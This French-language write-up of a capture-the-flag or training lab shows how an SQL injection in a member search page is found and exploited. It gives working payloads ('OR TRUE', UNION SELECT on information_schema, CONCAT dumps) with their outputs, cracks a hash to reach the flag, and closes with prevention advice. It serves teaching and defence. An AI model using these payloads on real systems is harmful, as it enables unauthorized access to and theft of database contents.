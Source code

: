 # Exploitation d'une Injection SQL sur la table "members"

## 1. Introduction

L’injection SQL est une faille de sécurité qui me permet, en tant qu'attaquant, d'exécuter des requêtes SQL arbitraires sur une base de données en manipulant les entrées utilisateur d'une application web mal sécurisée. Cette vulnérabilité me donne la possibilité d'accéder, modifier ou supprimer des données sensibles.

Dans ce document, je vais détailler comment j'ai découvert et exploité une injection SQL dans un moteur de recherche d'utilisateurs accessible via l’URL suivante :
```bash
http://IP/?page=member
```

## 2. Identification de la faille

L'application contient un moteur de recherche permettant d’afficher des informations sur un utilisateur à partir de son userID. Une requête valide serait :

### Requête légitime

- **Input** : `1`

- **Requête exécutée par le serveur** :
```bash
SELECT first_name, surname FROM users WHERE users.id = 1;
```

- **Output** :
```bash
ID: 1
First name: one
Surname: me
```

![Premiere injection](./images/1.png)

J'ai testé une tentative simple d'injection SQL en soumettant une requête non prévue :

### Première tentative d'injection

- **Input** : `SELECT * FROM users`

- **Output** :
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version...
```

![Deuxième injection](./images/2.png)

Cette erreur SQL brute m'indique que l’application concatène directement mon entrée dans une requête SQL.

## 3. Exploitation de la faille

### 3.1 Injection d’une condition toujours vraie

En injectant une condition toujours vraie (`OR TRUE`), je peux récupérer tous les utilisateurs.

- **Input** : `1 OR TRUE`

- **Requête exécutée** :
```
SELECT first_name, surname FROM users WHERE users.id = 1 OR TRUE;
```

- **Output** :
```bash
ID: 1 OR TRUE
First name: one
Surname: me

ID: 1 OR TRUE
First name: two
Surname: me

ID: 1 OR TRUE
First name: Flag
Surname: GetThe
```

![Troisième injection](./images/3.png)

Je vois ici que la requête retourne tous les utilisateurs, dont un utilisateur nommé Flag GetThe.

### 3.2 Injection UNION SELECT

J'ai ensuite tenté une attaque `UNION SELECT` pour récupérer les noms des colonnes :

- **Input** : `-1 UNION SELECT table_name, column_name FROM information_schema.columns`

- **Output** :
```bash
First name: users
Surname : user_id
First name: users
Surname : first_name
First name: users
Surname : countersign
```

J'ai ainsi découvert la structure de la table users, avec la colonne countersign contenant des informations intéressantes.

### 3.3 Récupération des données sensibles

J'ai concaténé toutes les colonnes d’un utilisateur pour voir son contenu :

- **Input** : `-1 UNION SELECT CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign), 1 FROM users`

- **Output** :
```bash
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sha256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

![Quatrième injection](./images/4.png)

### 3.4 Déchiffrement du mot de passe

Le message indique une opération de hachage SHA-256 après conversion en minuscules.

- **Déchiffrement de `5ff9d0165b4f92b14994e5c685cdce28` (MD5)** : `FortyTwo`

![Hashage](./images/5.png)

- **Conversion en minuscules** : `fortytwo`

- **Hachage SHA-256** : 
```bash
echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## 4. Prévention de la faille

### 4.1 Utilisation des requêtes préparées

Les requêtes préparées empêchent l’injection SQL en séparant la logique SQL des entrées utilisateur :
```bash
$stmt = $pdo->prepare("SELECT first_name, surname FROM users WHERE users.id = :id");
$stmt->execute(['id' => $_GET['id']]);
$result = $stmt->fetch();
```

## 4.2 Validation des entrées utilisateur

- Vérifier que `id` est un entier (`is_numeric($_GET['id'])`).

- Ne jamais afficher directement les erreurs SQL.

### 4.3 Utilisation d'un WAF (Web Application Firewall)

Un WAF comme ModSecurity peut bloquer les tentatives d'injection SQL en détectant des patterns malveillants.

5. Conclusion

J'ai exploité une faille SQL Injection pour obtenir les utilisateurs d’une base de données et récupérer un mot de passe chiffré. J'ai démontré comment empêcher cette vulnérabilité avec des requêtes préparées, une validation stricte des entrées utilisateur et l’utilisation d’un WAF.
